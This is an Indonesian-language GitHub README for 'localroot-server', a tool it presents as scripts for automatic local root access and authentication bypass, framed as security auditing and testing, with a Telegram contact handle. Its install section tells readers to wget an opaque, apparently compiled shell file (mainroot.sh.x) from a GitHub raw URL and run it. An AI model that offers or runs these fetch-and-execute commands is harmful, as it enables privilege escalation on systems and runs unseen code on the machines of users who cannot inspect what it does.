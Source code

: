 ![Banner Localroot](root.jpg)
# ⚙️ localroot-server

**localroot-server** adalah kumpulan skrip dan konfigurasi untuk mengelola server lokal dengan akses root. Dirancang untuk keperluan audit keamanan, automatisasi, dan pengujian.

---

## 🔍 Fitur

- 🚀 Akses root lokal otomatis
- 🔐 Penguatan sistem (hardening)
- 🔄 Manajemen user & permission
- 🧪 Skrip bypass otentikasi (testing)
- 📁 Kontrol file & konfigurasi sistem

---

## telegram ☎️ @seotampanidaman

```bash

wget https://raw.githubusercontent.com/mrwawanj/localroot/refs/heads/main/mainroot.sh.x
```

```bash
chmod +x mainroot.sh.x
bash mainroot.sh.x | ./mainroot.sh.x
```
